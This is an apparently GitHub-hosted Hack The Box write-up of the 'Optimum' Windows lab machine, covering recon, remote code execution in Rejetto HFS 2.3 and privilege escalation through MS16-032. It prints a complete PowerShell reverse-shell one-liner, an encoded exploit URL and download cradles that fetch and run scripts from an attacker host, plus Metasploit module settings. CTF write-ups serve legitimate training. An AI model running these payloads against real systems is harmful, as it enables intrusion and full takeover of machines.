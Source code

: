 # 🚀 HTB: Optimum

**Machine Info:**
- **IP**: `10.10.10.8`
- **OS**: [Windows Server 2012 R2 (64-bit)](Windows)
- **Difficulty**: [Easy](Easy)
- **Exploits Used**:
  - **RCE**: [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) – Rejetto HFS 2.3.x
  - **PrivEsc**: [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099) – MS16-032

---

## 🧭 Recon

### 🔍 Full TCP Scan
```bash
nmap -p- --min-rate 10000 10.10.10.8
```

### 🎯 Service Detection
```bash
nmap -p 80 -sCV 10.10.10.8
```

**Result:**
- Port `80` open
- Service: `HttpFileServer 2.3`

---

## 🌐 [Web Recon – HFS](HTTP)

### 🕵️ Vulnerability Check
```bash
searchsploit httpfileserver
```

**Finding:**  
`Rejetto HttpFileServer 2.3.x - Remote Command Execution` → [CVE-2014-6287](https://www.exploit-db.com/exploits/49125)

---

## 🧨 Initial Access – kostas

### 🔧 Exploit Trigger (PowerShell Reverse Shell)
**Prep Nishang One-liner:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Start server:
```bash
python3 -m http.server 80
```

### 🛰️ Netcat Listener
```bash
rlwrap nc -lnvp 443
```

Trigger via encoded URL:
```http
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.13/rev.ps1').}
```

**Shell Received:**
```powershell
whoami
optimum\kostas
```

### 🏁 User Flag
```powershell
type C:\Users\kostas\Desktop\user.txt.txt
```

---

## 🧱 Privilege Escalation – SYSTEM

### 🧬 Confirm Architecture
```powershell
[Environment]::Is64BitProcess
True
```

### 🪪 Credential Reuse
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
> Found: `kostas : kdeEjDowkS*` (but already logged in as kostas)

---

### 🔍 Kernel Exploit Enumeration – Sherlock
**Upload & execute:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.13/Sherlock.ps1')
Find-AllVulns
```

**Findings:**
- MS16-032 → CVE-2016-0099 – ✅ Vulnerable
- MS16-034 / MS16-135 → also show as potentially vulnerable

---

### 🧬 Exploit MS16-032 Metasploit

### Metasploit

```
msfconsole -q
```

```
search windows/http/rejetto_hfs_exec
use 0

show options

set LHOST tun0
set RHOSTS 10.10.10.8
set LPORT 9999
set RPORT 80
```

```
background
sessions -i

```

```
search suggester
use 0
set session 1  
run

```

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

set LHOST tun0
set LPORT 6663
set session 1
exploit
```

# ROOTED with Metasploit




### 🧬 Exploit MS16-032

**Exploit Script Used:**
[`Invoke-MS16032.ps1`](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1)

Append to script:
```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
```

**Run from PowerShell:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
```

### ⚡ SYSTEM Shell
```powershell
whoami
nt authority\system
```

### 🏁 Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Lessons Learned

### 🪞 Initial Access
- HFS 2.3.x is vulnerable to RCE via `/?search=%00{.exec|...}`
- Using PowerShell cradles with `downloadString` is an effective and fast method to gain shells on legacy boxes.

### 🔓 PrivEsc Takeaways
- Kernel exploits like **MS16-032** remain valid for unpatched boxes.
- Use **Sherlock** or **Watson** (older machines might not support Watson’s .NET dependencies).
- Watch out for **process architecture** (32-bit shells won’t work for 64-bit kernel exploits).
